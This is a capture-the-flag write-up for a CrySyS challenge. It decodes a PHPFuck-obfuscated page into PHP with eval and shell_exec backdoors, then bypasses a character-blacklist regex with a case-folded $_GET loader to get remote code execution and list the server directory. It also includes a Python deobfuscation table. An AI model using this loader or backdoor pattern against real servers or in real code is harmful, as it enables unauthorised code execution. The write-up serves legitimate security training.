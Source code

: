 # Until the end

- Road to Valhalla part 3 
- medium

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page "Only those who endure until the end". So be it traveler endure till the end and you will have your reward!

https://until-the-end.secchallenge.crysys.hu

author: Pepe

## Writeup

We were greeted with syntax-highlighted PHP code (linked because it's BIG). It was actually the source code of the page.

Identifying that brackety-thing was not straightforward, and took me some time. Googling `programming only brackets` led me to [this SO question](https://stackoverflow.com/questions/25622221/language-made-only-of-brackets-plus-and-exclamation-marks) and it turns out there's a joke-language (a subset of JS) called `JSFuck` witch uses only a few characters for programs. Of course, this is PHP and another set of characters...

After that, I've randomly googled `PHPFuck` and found [this github repo](https://github.com/splitline/PHPFuck), basically the exact thing used here.

![php_normal](php.png)
(meme by `rnbwdsh`)

So, I've worked on un-fucking the script. It's not that hard, it's just making characters and concatenates them into code, then passes it to `create_function`. It mostly follows the pattern of `(char).(char).(char)`. With a PHP shell to eval the characters I've managed to search-replace all of them and reverse the code:
```php
<title>Only those who endure until the end</title>
<?php 
highlight_file(__FILE__);
if (isset($_GET[' '])) {
    $will_eval = str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69))));
    var_dump($will_eval);
    eval($will_eval);
}
else if (isset($_GET['+'])) {
    if (preg_match('/[b-d\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) 
        die();
    eval($_GET['+']);
}
else {
    die();
    shell_exec($_GET['cmd']);
}
?>
```

So there's actually 2 backdoors, but possibly only one of them is accessible. With a few tries (a lot of them actually because I f-ed them up) it turns out that `+` can be a parameter if URL-encoded as `%2B`. It will only eval our payload if it does NOT match that regex, witch limits what we can do.

I've came up with a way to escape that regex prison by `eval()`-ing another `$_GET` parameter. I could not just include `$_GET`, but could do `$_Get` and `eval()` it after `strtoupper()` and get the same thing. The whole thing only works because function names are not case sensitive.

Here's my loader:
```php
$a=StRtOuPPeR('$_Get');
$Y=eval("RetuRN {$a};");
$x=$Y['x'];
eval($x);
```

Sent URL-encoded of course.

With that, I've gained RCE on the server. It took me a really long time to figure out that this even works, because I've always tried `shell_exec()` and `file_read()` and those were disabled (should have run `phpinfo()` first, stupid me). 

Anyways, if you list the contents of the folder, you can see that there is a folder named `very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]` and as with the previous ones I could just navigate there and find the flag.


The request I've found the folder with: `+=<loader>&x=echo scandir(".");`

### EDIT:
My code unfucking the PHP:
```python
REPLACE = [
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","c"],
    ["(([].[])[([]^[[]])])", "r"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "e"],
    ["(([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","a"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","t"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","_"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","f"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","u"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","n"],
    ["(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","i"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","o"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","s"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "g"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","v"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","("],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","$"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","G"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","E"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","T"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","["],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])"," "],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])",'"'],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",","],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","\\'"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",")"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","{"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\n"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","]"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","l"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])])","p"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","k"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","w"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","m"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","h"],
    ["(([]^[[]]).[][[]])","1"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])])","3"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","b"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","4"],
    ["(([]^[[]])+([]^[[]]).[][[]])","2"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","6"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","9"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","d"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",";"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","+"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","}"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","/"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","-"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\"],
    ["(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","x"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","!"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","H"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","L"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","D"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","U"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","X"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","?"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","z"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","."],
    ["(([].[])[([]^[])])","A"],
    ["(([]^[]).[][[]])","0"],

]

REPLACE.sort(key=lambda x: len(x[0]), reverse=True)


with open("phpfuck.php") as fin:
    with open("out.php", "w") as fout:
        l = fin.read()
        for r in REPLACE:
            l = l.replace(r[0],f"'{r[1]}'")
        #l = l.replace("'.'","")
        fout.write(l)
        
```
